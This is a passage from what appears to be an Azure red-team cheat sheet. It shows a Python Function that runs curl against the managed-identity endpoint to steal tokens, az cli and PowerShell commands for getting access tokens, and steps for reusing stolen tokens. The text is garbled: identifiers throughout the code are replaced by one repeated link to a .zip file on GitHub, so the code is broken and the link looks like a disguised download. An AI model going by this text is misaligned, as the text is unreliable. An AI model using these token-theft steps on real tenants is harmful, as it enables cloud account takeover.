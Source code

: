 or inside a Python Function:

```py
import logging, os
import https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip as func

def main(req: https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip) -> https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
    https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip('Python HTTP trigger function processed a request.')
    IDENTITY_ENDPOINT = https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip['IDENTITY_ENDPOINT']
    IDENTITY_HEADER = https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip['IDENTITY_HEADER']
    cmd = 'curl "%https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
    val = https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip(cmd).read()
    return https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip(val, status_code=200)
```


### Get Tokens

:warning: The lifetime of a Primary Refresh Token is 14 days!

```powershell
# az cli - get tokens 
az account get-access-token 
az account get-access-token --resource-type aad-graph
# or Az
(Get-AzAccessToken -ResourceUrl https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip).Token
# or from a managed identity using IDENTITY_HEADER and IDENTITY_ENDPOINT
```

### Use Tokens

> Tokens contain all the claims including that for MFA and Conditional Access

* Az Powershell
    ```powershell
    PS C:\Tools> $token = 'eyJ0e..'
    PS C:\Tools> Connect-AzAccount -AccessToken $token -AccountId <ACCOUNT-ID>

    # Access Token and Graph Token
    PS C:\Tools> $token = 'eyJ0eX..'
    PS C:\Tools> $graphaccesstoken = 'eyJ0eX..'
    PS C:\Tools> Connect-AzAccount -AccessToken $token -GraphAccessToken $graphaccesstoken -AccountId <ACCOUNT-ID>
    PS C:\Tools> Get-AzResource
    # ERROR: 'https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip' cannot be null.
    # ---> The managed identity has no rights on any of the Azure resources. Switch to to GraphAPI
    ```
* AzureAD
    ```powershell